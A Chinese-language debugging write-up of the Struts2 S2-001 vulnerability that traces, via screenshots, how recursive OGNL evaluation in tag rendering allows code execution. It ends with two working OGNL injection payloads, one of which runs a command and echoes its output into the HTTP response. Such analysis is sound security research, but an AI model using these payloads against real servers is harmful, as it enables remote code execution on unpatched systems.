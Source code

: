 ## 漏洞影响范围
WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

## 漏洞成因

## 流程分析
**断点位置**
这里的配置是是将所有的请求交给Struts2来处理
![](attachments/Pasted%20image%2020230330064504.png)

所以断点位置直接放在org.apache.struts2.dispatcher.FilterDispatcher的doFilter

![](attachments/Pasted%20image%2020230330064920.png)

请求基本跳转

![](attachments/Pasted%20image%2020230330065258.png)

进入dofilter后，经过一些判断，mapping肯定是不为null的，到serviceAction的位置

![](attachments/Pasted%20image%2020230330065757.png)

这里的serviceAction和我们之前配置的LoginAction联系

基本上就是将Action对象引入，这里是做了应该valueStack的判断，在环境里的struts.xml拿到mapping，进而获取到我们的LoginClass，一些细节上的东西就不看了

![](attachments/Pasted%20image%2020230330070340.png)

这里直接到execute

![](attachments/Pasted%20image%2020230330070550.png)

在这里进入invoke后，由应该interceptors的迭代器在做操作，遍历了一遍拦截器

![](attachments/Pasted%20image%2020230330071116.png)

具体拦截器的列表事实上在前面已经getconfiguration了

![](attachments/Pasted%20image%2020230330124302.png)


朝这个位置找的话是找到一个对参数进行处理的拦截器的

![](attachments/Pasted%20image%2020230330124835.png)

方便调试，在这里下一个断点

![](attachments/Pasted%20image%2020230330125249.png)

这里获取了context，然后从中取出访问的参数

![](attachments/Pasted%20image%2020230330125811.png)

中间过程可以忽略，最后是set到了action中

![](attachments/Pasted%20image%2020230330130215.png)

通过setvalue放进来

![](attachments/Pasted%20image%2020230330130329.png)

这里有一个遍历iterator

![](attachments/Pasted%20image%2020230330130748.png)

所有的拦截器遍历完之后，回进入这个invokeActionOnly()

![](attachments/Pasted%20image%2020230330131025.png)

![](attachments/Pasted%20image%2020230330131614.png)

这里面就已经再用execute来处理

![](attachments/Pasted%20image%2020230330131916.png)

结束后回到了DefaultActionInvo'ca'tuiocation，走到executeResult

![](attachments/Pasted%20image%2020230330132028.png)

这里的配置已经是我们的index.jsp

![](attachments/Pasted%20image%2020230330132248.png)

进到doExecute

![](attachments/Pasted%20image%2020230330133203.png)


再对requests和response的处理后,到这边dispatcher.include()

向下调用jsp来执行，解析标签的过程中会有doendtag和dostarttag，再下面进入end方法就到了漏洞点了

![](attachments/Pasted%20image%2020230330135125.png)

![](attachments/Pasted%20image%2020230330135357.png)


![](attachments/Pasted%20image%2020230330135326.png)

可以向下执行找到

![](attachments/Pasted%20image%2020230330135730.png)

altSyntax默认开启下面取到了表达式中的值
![](attachments/Pasted%20image%2020230330135810.png)

然后去findvalve，进到TextParseUtil.traslateVariables

![](attachments/Pasted%20image%2020230330140347.png)

这里就是一个循环取值的过程，将{}中间的值取了出来，但是由于是while(True)，又执行了第二次

![](attachments/Pasted%20image%2020230330140644.png)

![](attachments/Pasted%20image%2020230330141426.png)

使用while递归来判断解析造成了二次解析，使5在第一次递归中就已经完成的OGNL表达式产生了任意代码执行

## payload
`%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}`

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cmd","-c","clac"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`
## 参考文章

[Java Struts2 系列 S2-001 | Drunkbaby's Blog (drun1baby.top)](https://drun1baby.top/2022/10/27/Java-Struts2-%E7%B3%BB%E5%88%97-S2-001/)

[JavaSec/Struts2-001.md at main · Y4tacker/JavaSec (github.com)](https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2%E4%B8%93%E5%8C%BA/s2-001%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Struts2-001.md)